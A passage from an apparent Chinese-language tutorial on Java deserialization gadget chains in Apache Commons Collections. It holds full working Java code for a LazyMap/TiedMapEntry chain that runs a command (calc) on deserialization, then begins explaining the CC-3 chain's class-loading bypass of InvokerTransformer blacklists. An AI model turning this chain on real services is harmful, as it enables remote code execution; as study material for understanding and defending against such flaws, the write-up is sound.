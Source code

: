 ```plain
    public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);
        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的map以便过map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"lky");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可
        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()
        //序列化过程结束
        Lazymap.remove("lky");
        //删除key
        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);
        serialize(m2);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-3分析

CC-3这条链子的思路是用了我们一开始学的java的类的动态加载，如果我们的链子总是依赖ChainedTransformer的transform方法，利用反射将多个Invoketranfoemer来进行的执行命令这样的思路，要是Invoketranfoemer类进入了黑名单，这样整条链子就不能用了。

为了摆脱这样的限制，CC-3链子的这种思路就应运而生了。

### 类的动态加载

我们在写第一篇的时候也详细的分析了，这里也就是简单提一些对本链子理解有助的内容。我们把目光放到ClassLoader中，Java在加载类的时候都会进行这些流程

```plain
ClassLoader ->SecureClassLoader->URLClassLoader->AppClassLoader
ClassLoader.loadClass - > ClassLoader.findClass - > ClassLoader.defineClass
```
